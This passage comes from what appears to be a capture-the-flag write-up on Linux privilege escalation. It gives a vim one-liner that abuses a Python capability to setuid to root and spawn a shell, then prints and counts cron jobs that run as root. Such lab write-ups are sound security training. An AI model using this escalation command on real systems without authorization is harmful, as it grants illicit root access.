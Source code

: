> Cross-referencing against the list of binaries on [GTFOBins](https://gtfobins.github.io/gtfobins/vim/), vim and **view** can be used through their capabilities

### What is the content of the flag4.txt file?

- Use `./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` to escalate privileges to root
- `find / -name "flag4.txt"`

> <details><summary><code>cat /home/ubuntu/flag4.txt</code> returns </summary></details>

## Cron Jobs

`cat /etc/crontab` returns:

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py
```

### How many user-defined cron jobs can you see on the target system?

> There are **4** cron jobs listed on the target system

### What is the content of the flag5.txt file?
